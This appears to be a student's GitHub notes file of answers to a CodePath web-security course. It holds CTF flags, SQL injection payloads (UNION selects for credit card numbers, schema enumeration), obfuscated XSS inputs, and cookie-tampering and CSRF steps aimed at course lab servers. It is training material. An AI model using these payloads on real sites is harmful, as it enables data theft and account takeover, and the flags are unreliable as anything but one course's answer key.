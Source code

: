 # webhack

## week 1 - CTF

Secret Number 1: 92

Secret Number 2 - *CTF{TRIANGLE_NUMBER_SEQUENCE}

Secret Number 3 - *CTF{IDOR_ROCKS!}

Bank Robbers 2 - *CTF{YOU'RE_AN_IMPRESSIVE_THIEF}

Bank Robbers 3 - *CTF{I_SHOULD_HIDE_MY_BELONGINGS}

key player 2 - 3

key player 3 - *CTF{JORDAN_ALSO_BETTER_THAN_ME}

Odd List - *CTF{DECODE_AS_URL}

hidden user - *CTF{SQUARE_NUMBER_SERIES}

Peculiar Employees - *CTF{I_STOLE_DAENERYS_DRAGONS}

Privilege Escalation - *CTF{YOU_GOT_ADMIN_PRIVILEGE}

## week 2

### Lab
------
SQL Injection Escaping:   `\'   or 1;--`
------
SQL Injection Challenge Three:  `Mary Martin' union select CreditCardNumber from customers where customerName = 'Mary Martin`
------
SQL Injection 5: `couponCode=' union select 1, 2, couponCode from vipCoupons limit 1 # `

### CTF

https://35.188.146.206/public/protected/flags/03/
`*CTF{WHOA_IT_SUPPORTS_LOGICAL_OPERATORS}`

https://35.188.146.206/public/protected/flags/04/
`*CTF{BACK_AGAIN_WITH_ANOTHER_SQLi} . 'or'1`

https://35.188.146.206/public/protected/flags/01/index.php
`*CTF{SQLI_IS_SO_FUN_TO_DO}`

https://35.188.146.206/public/protected/flags/05/?job_type=a&submit=submit


https://35.188.146.206/public/protected/flags/07/
`*CTF{SQLI_IS_MORE_FUN_WITH_HEX}`

https://35.188.146.206/public/protected/flags/08/    `params['job_type'] = 'a' `
`*CTF{ARE_YA_WARMED_UP_YET??}`

https://35.188.146.206/public/protected/flags/09/
`*CTF{OH_YOU_FANCY_HUH}` like before just encoded: `params['job_type'] = 'YQ=='`

https://35.188.146.206/public/protected/flags/10/
`" or 1=1 limit 6,1#         " union select 1,2,3,4,5,schema_name FROM information_schema.schemata limit 1,1# `
`*CTF{sqli_10}`

https://35.188.146.206/public/protected/flags/12/  in both fields: `"or"1`
`*CTF{THIS_FLAG_IS_ONLY_FOR_MR_ADMINISTRATOR}`

https://35.188.146.206/public/protected/flags/13/   'or'1'/**/limit/**/2,1#
*CTF{5.7.21-0ubuntu0.16.04.1}

https://35.188.146.206/public/protected/flags/14/
`*CTF{THE_BEST_COLUMN_NAMES_EVERRR}` :   taken from 15

not solved: 

https://35.188.146.206/public/protected/flags/15/
hints:
```
"or"1"# 
"or"1"union select 1,2 limit 1,29#

"or"1"union select TABLE_NAME,COLUMN_NAME from information_schema.COLUMNS limit 1000,1000#
```

## Week 3 - Lab

Cross Site Scripting Two
`"<INPUT TYPE="text" onblur="alert('XSS')"/>"`

3
`<META onpaonpageonpagonpageonpageshowshoweshowshowgeshow="alert(1)";`

4
`http://blabla.com"  oNpageshow=alert('XSS') `

## codepath websecurity week 4

Implementing CSRF as an exercise, more details:
https://guides.codepath.com/websecurity/Cross-Site-Request-Forgery

### Lab

ex 0: easy (just look at the response)

ex 1: from the cookie, base64, modify to: `userRole=administrator` and re-encode

ex 2: try administrator as username, you'll get the email: buzzthebald@shepherd.com
take the request of the reset pwd and try to change the cookie to admin:
changed To: -3511607529262...
now log in...

ex 3. same like before only now we have a new `current` field in the cookie, decrypting it twice with base 64 shows something like `guest12`, reverse engineer using `admin` or `administrator` and use the new 'fixed` current with the login using the new password that we just submitted for a change

ex 4. simply follow the instructions and submit the url as they suggest:
https://security.codepath.com/root/grantComplete/csrfLesson?userId=1139997297 

ex 5. CSRF - upload the url: https://security.codepath.com/user/csrfchallengeone/plusplus?userid=<your user id> and once enough other users loaded the page your counter will go to zero

ex 6. create a page with a hidden form like they show on the guide, use the url and wait for someone to load the page, see:
https://github.com/alfasin/webhack/blob/master/fake_form.html

### CTF


